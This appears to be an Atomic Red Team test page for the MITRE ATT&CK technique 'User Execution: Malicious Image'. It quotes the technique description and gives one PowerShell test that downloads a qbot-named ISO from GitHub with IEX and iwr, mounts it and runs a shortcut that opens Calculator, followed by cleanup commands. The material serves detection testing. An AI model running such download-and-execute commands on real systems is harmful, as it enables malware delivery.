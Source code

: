 # T1204.003 - User Execution: Malicious Image

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1204/003)

<blockquote>Adversaries may rely on a user running a malicious image to facilitate execution. Amazon Web Services (AWS) Amazon Machine Images (AMIs), Google Cloud Platform (GCP) Images, and Azure Images as well as popular container runtimes such as Docker can be backdoored. Backdoored images may be uploaded to a public repository via [Upload Malware](https://attack.mitre.org/techniques/T1608/001), and users may then download and deploy an instance or container from the image without realizing the image is malicious, thus bypassing techniques that specifically achieve Initial Access. This can lead to the execution of malicious code, such as code that executes cryptocurrency mining, in the instance or container.(Citation: Summit Route Malicious AMIs)

Adversaries may also name images a certain way to increase the chance of users mistakenly deploying an instance or container from the image (ex: [Match Legitimate Name or Location](https://attack.mitre.org/techniques/T1036/005)).(Citation: Aqua Security Cloud Native Threat Report June 2021)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Malicious Execution from Mounted ISO Image](#atomic-test-1---malicious-execution-from-mounted-iso-image)

<br/>

## Atomic Test #1 - Malicious Execution from Mounted ISO Image

Adversaries may rely on a user running a malicious image to facilitate execution

**Supported Platforms:** Windows

**auto_generated_guid:** e9795c8d-42aa-4ed4-ad80-551ed793d006

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.003/src/qbot-test.iso" -OutFile "$env:TEMP\qbot-test.iso")
Mount-DiskImage -ImagePath "$env:TEMP\qbot-test.iso"
$mountedpath = (Get-DiskImage -ImagePath "$env:TEMP\qbot-test.iso" | Get-Volume).DriveLetter
$finalpath = $mountedpath + ":\"
cd $finalpath
.\calc.exe.lnk
```

#### Cleanup Commands:

```powershell
start-sleep -s 5
stop-process -Name "Calculatorapp" -Force
dismount-diskimage -ImagePath "$env:TEMP\qbot-test.iso"
```

<br/>
